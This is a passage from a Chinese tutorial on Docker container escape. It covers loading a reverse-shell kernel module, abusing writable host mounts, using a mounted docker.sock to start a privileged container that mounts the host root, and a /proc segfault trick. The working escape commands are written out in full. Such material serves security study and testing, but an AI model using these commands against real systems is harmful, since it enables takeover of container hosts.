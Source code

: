 ![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665595303157-b319397b-b43a-492c-a51d-11cdd3d3895c.png)

在容器上下载reverse-shell.ko，并执行如下命令，加载内核模块

```plain
apt-get update
apt-get install kmod
insmod reverse-shell.ko
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665595381921-695ed862-4c68-4c23-9180-e5ae6489ceec.png)

> 拥有privileged权限也可以利用此方式进行逃逸
>

除了上述特殊权限，更多特殊权限利用可参考[这里](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)。

# 容器挂载不安全目录
## 挂载特殊路径
<font style="color:rgb(36, 41, 47);">这类的挂载很好理解，例如宿主机的内的 /, /etc/, /root/.ssh 等目录的写权限被挂载进容器时，在容器内部可以修改宿主机内的 /etc/crontab、/root/.ssh/、/root/.bashrc 等文件执行任意命令，就可以导致容器逃逸，不再赘述。</font>

## docker in docker
当宿主机的 /var/run/docker.sock 被挂载容器内的时候，容器内就可以通过 docker.sock 在宿主机里创建任意配置的容器，此时可以理解为可以创建任意权限的进程，当然也可以控制任意正在运行的容器。

<font style="color:rgb(36, 41, 47);">可以试试 Google Cloud IDE 天然自带的容器逃逸场景，拥有 Google 账号可以直接点击下面的链接获取容器环境和利用代码，直接执行利用代码 try_google_cloud/host_root.sh 再 chroot 到 /rootfs 你就可以获取一个完整的宿主机 shell：</font>

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665627939269-7424232a-0491-47fa-ad97-b687ce8db5e5.png)

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665627946632-ea11ad53-c847-4768-b1a7-d8717f1d05e5.png)

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665628211879-46f48019-572e-453c-9af9-156f42af17bc.png)

也可以在容器中使用如下命令<font style="color:rgb(36, 41, 47);">创建一个通往宿主机的 shell</font>

```plain
./bin/docker -H unix:///tmp/rootfs/var/run/docker.sock run -d -it --rm --name rshell -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
```

也可以使用cdk工具发包到docker

## 挂载/proc
在容器运行段错误的程序，触发恶意代码在Node节点上执行，造成逃逸。

```plain
#首先创建段错误程序
#include<stdio.h>
int main(void)
{
  int *a=NULL;
  *a = 1;
  return 0;
}

#编译
gcc main.c
nc -lvp 999 < a.out
```
